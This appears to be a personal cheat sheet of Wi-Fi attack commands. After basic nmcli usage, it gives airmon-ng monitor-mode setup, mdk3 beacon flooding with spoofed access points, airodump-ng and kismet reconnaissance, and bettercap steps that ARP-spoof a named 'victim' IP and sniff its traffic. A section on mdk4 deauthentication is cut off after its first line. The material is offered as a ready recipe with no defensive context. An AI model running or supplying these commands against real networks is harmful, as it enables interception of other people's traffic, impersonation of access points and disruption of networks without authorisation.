 * nmcli device status
* nmcli device showstatus
* nmcli device showstatus wlan0 
* nmcli device wifi connect # connect to near hotspot
* nmcli device wifi hotspot # create a wifi hotspot 

* wifi-show-password

-----------------------------------------------------BROADCAST-MODE---------------------------------------------

* sudo ifconfig wlan0 down
* sudo airmon-ng check
* sudo airmon-ng check kill
* sudo airmon-ng start wlan0

* sudo mdk3 wlan0 b -c 1 -f ./data/data.lst ## update data.txt with spooffed ap 
* airodump-ng wlan0 -c 11 ## use to monitor local APS 
max


--------------------------------------------------[WHOS CONNECTINIG TO ME]------------------------------------------

[netscanner]
[angry ip scanner]
[netdiscover]
* sudo netdiscover -i wlan0 -r 192.168.1.1
[KISMET] 
* sudo kismet -c wlan1mon 

[bettercap] - CLI [ettercap] - GUI
* sudo bettercap -caplet http-ui [UI MODE]
* bettercap  -iface wlan0

[EtterCap - GUI]
* sudo ettercap -G
* 
[mitmproxy] 

[commansd]
* net.show [shows whos connected to device]
* net.probe on [probes packetsfor recon]

* set arp.spoof.targets 192.168.1.10 [sets  spoof to victim]
* set arp.spoof.fullduplex true [sets attack to victim and  host]
* set arp.spoof.targets 192.168.43.157(IP address of the target Device)
* arp.spoof on

* set net.sniff.local true
* net.sniff on

---------------------------------------------[DISCOVER / DEAUTH USERS]---------------------------------------------

[MDK4 -- ULTIMATE NETWORK LIMITER]
* sudo mdk4 
